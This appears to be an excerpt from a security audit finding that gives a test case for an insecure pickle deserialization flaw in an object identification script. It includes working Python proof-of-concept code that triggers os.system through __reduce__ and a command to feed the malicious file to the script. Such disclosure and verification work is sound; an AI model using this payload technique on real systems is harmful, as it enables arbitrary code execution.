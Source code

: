 * Security Test Case:
    1. **Prepare a malicious pickle file:** Create a Python script to generate a malicious pickle file (e.g., `malicious_embedding.pkl`). This file should contain code to be executed during deserialization, similar to the PyTorch checkpoint example.
        ```python
        import pickle
        import os

        class MaliciousPayload:
            def __reduce__(self):
                return (os.system, ('touch /tmp/pickle_pwned',))

        payload = {'feature_embeddings': MaliciousPayload(), 'fnsku_map': {}}
        with open('malicious_embedding.pkl', 'wb') as f:
            pickle.dump(payload, f)
        ```
    2. **Prepare a malicious dataset directory:** Create a directory (e.g., `malicious_dataset`) and place the `malicious_embedding.pkl` file inside it.
    3. **Run the vulnerable code:** Execute the object identification test script, providing the path to the malicious dataset directory using the `-d` or `--dataset_path` argument. For example, run `python /code/identification/test.py -d /path/to/malicious_dataset`.
    4. **Verify code execution:** Check if the malicious code was executed. In the example above, check if the file `/tmp/pickle_pwned` was created. Successful creation of the file indicates arbitrary code execution.